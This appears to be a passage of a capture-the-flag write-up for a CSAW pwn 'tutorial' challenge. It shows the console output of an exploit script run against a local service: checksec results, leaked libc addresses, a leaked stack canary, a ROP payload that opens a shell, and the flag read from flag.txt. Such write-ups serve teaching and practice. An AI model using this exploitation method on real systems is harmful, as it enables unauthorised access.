 ```
```

Now to run it:
```
$	python exploit.py 
[*] '/Hackery/ctf/csaw/pwn/tutorial/libc-2.19.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 127.0.0.1 on port 44888: Done
-Tutorial-
1.Manual
2.Practice
3.Quit
>
leak: 0x7ffff787c420
sys: 0x7ffff78516a0
clo: 0x7ffff7904f10
dup: 0x7ffff7904f70
bsh: 0x7ffff7996c40
-Tutorial-
1.Manual
2.Practice
3.Quit

>
Time to test your exploit...

>

8
8
The stack canary is: 0x5194f34205810800
The first canary is: 0x4205810800000000
The second canary is: 0xaffffe4a05194f3
1.Manual
2.Practice
3.Quit

>
Time to test your exploit...

[*] Switching to interactive mode
>000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000\x0\x81\x05B��Q000ls
flag.txt
$ cat flag.txt
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
```
